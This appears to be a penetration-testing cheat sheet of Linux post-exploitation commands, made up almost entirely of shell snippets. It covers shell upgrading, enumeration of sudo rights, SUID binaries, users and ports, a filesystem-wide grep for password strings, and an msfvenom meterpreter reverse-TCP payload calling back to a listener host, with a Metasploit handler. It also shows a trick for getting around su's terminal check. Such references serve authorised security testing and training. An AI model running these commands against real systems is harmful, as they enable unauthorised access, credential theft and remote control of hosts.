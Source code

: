 Upgrade shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Show Linux version:
```bash
uname -a
```

List sudo privileges of current user:
```bash
sudo -l
```

Print groups of current user:
```bash
groups
```

Print history:
```bash
history
```

Search hidden files in home directory:
```bash
ls -la ~
```

List users:
```bash
cat /etc/passwd
```

Search for SUID executables:
```bash
find / -perm -u=s -type f 2>/dev/null
```

List running processes:
```bash
ps -aux
```

List open ports:
```bash
netstat -tulpn
```

Print environment variables:
```bash
printenv
```

Search for strings in files:
```bash
grep --color=auto -rnw '/' -iIe "PASSW\|PASSWD\|PASSWORD\|PWD\|PASS\|PW" --color=always --exclude-dir={usr,lib,boot,bin,cache} 2>/dev/null
```

Upgrade a system shell to meterpreter:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.0.22 LPORT=7777 -f elf > revshell.bin
```
Setup listener:
```msfconsole
use exploit/multi/handler
```

If you want to switch user and encounter this error:
```bash
su oracle
su: must be run from a terminal
```
Run this command and try again:
```bash
/usr/bin/script -qc /bin/bash /dev/null
su oracle
```
